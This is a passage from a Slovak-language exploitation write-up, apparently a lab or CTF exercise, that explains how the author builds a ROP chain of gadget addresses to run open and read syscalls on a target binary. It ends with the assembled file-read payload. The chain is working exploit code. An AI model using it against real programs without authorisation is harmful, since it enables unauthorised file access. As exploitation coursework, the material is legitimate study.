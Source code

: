 V tejto časti sa hodnoty registrov nastavia nasledovne:
- rax - 2
- rdx - 0
- rbx - 0
- rsi - 0
- rdi - adresa začiatku buffera

### Inštrukcie pre file read:

Pri čítaní súboru som vedel nejaké inštrukcie použiť z otvárania súboru

```py
# pop rdx; pop rbx; ret
pop_rdx_rbx = p64(0x0000000000485b4b)

# buffer address for pop rdi instruction
buffer_pop = p64(address + 200)

# mov qword ptr [rdx], rax ; ret
mov_rdx_rax = p64(0x00000000004198a8)

# pop rdi; ret
pop_rdi = p64(0x0000000000401f8f)
```

V tomto kroku bolo komplikované dostať hodnotu z **rax**, kde sa nachádza file descriptor do registra **rdi**. Na toto by bola najvhodnejšie použiť **mov rdi, rax; ret;**, ale takúto inštrukciu som vo výstupe ROPgadget nenašiel. To znamená, že som sa to musel pokúsiť obísť. Obišiel som to tak, že som našiel inštrukciu **mov qword ptr [rdx], rax ; ret**, ktorá skopíruje hodnotu rax na adresu kam ukazuje register rdx. Čiže ešte pred vykonaním mov inštrukcie som musel nastaviť register rdx tak, aby ukazoval za inštrukciu **pop rdi**


V červenom je hodnota pointera, kde sa má uložiť hodnota z rax (zvýraznené modrou). Pred červeným rámikom sa nachádza adresa inštrukcie **pop rdx; pop rbx; ret;**. Pred modrým rámikom sa nachádza adresa inštrukcie **pop rdi; ret;**

![](image-1.png)

Výsledok čítania súboru:

```py
file_read = pop_rdx_rbx + buffer_pop + zero + mov_rdx_rax + pop_rdi + b"\x90" * 8 + pop_rax_rdx_rbx + zero + zero + zero + pop_rsi + buffer_addr + pop_rdx_rbx + length + zero + syscall
```
